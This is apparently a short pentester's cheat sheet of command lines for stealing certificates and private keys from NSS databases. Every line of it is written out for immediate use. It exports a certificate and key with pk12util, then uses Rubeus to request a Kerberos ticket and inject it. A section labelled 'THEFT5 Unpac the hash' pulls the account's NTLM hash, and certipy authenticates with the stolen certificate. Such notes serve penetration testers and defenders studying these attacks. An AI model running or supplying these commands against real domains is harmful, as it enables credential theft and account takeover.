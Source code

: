 ### NSS databases
- We can use certutil to view and initialize a NSS database for certificate storage.

#### Initialize DB
```
certutil -d $HOME/.pki/nssdb -N
```

#### Import Certificate
```
pk12util -i internaluser.p12 -d $HOME/.pki/nssdb
```

#### Enumerate DB
```
certutil -L -d <FILE TO nssdb>
```

#### Enumerate cert DB
```
certutil -L -d <FILE TO nssdb> -a -n "<CERT NICKNAME>"
```

#### Enumerate key DB
```
certutil -K -d <FILE TO nssdb> 
```

#### Export cert and private key
```
pk12util -o certandkey.pfx -n "<CERT NICKNAME>" -d <FILE TO nssdb>
```

#### Check PFX
```
certutil -v -dump -p <PASSWORD> <PATH TO PFX>
```

#### Request TGT
```
.\Rubeus.exe asktgt /user:<USER> /certificate:certandkey.p12 /domain:<DOMAIN> /ptt
```

### THEFT5 Unpac the hash
#### Pass the certificate Request TGT
- Add `/getcredentials` to also retrieve the NTLM hash (Unpac the hash attack)
- Possible to use `/certficiate`  and base64 output
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

```
certipy auth -pfx '<PATH TO cert.pfx>'
```
